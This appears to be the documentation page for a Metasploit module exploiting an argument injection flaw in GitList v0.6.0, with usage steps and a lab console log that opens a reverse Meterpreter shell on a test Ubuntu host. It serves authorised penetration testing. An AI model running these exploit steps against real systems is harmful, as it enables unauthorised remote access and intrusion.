 
## Vulnerable Application

  This module exploits an argument injection vulnerability in GitList v0.6.0

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use [exploit/multi/http/gitlist_arg_injection]`
  4. Do: `set RHOSTS [IP]`
  5. Do: `run`
  6. You should get a session.

## Scenarios

### Tested on Ubuntu 18.04 x64

  ```
  msf5 > use exploit/multi/http/gitlist_arg_injection
  msf5 exploit(multi/http/gitlist_arg_injection) > set rhosts 192.168.37.141
  rhosts => 192.168.37.141
  msf5 exploit(multi/http/gitlist_arg_injection) > check
  [+] 192.168.37.141:80 The target is vulnerable.
  msf5 exploit(multi/http/gitlist_arg_injection) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444
  [*] Sending stage (37775 bytes) to 192.168.37.141
  [*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.141:35804) at 2018-07-05 14:22:39 -0500

  meterpreter > sysinfo
  Computer    : ubuntu
  OS          : Linux ubuntu 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64
  Meterpreter : php/linux
  meterpreter >

  ```
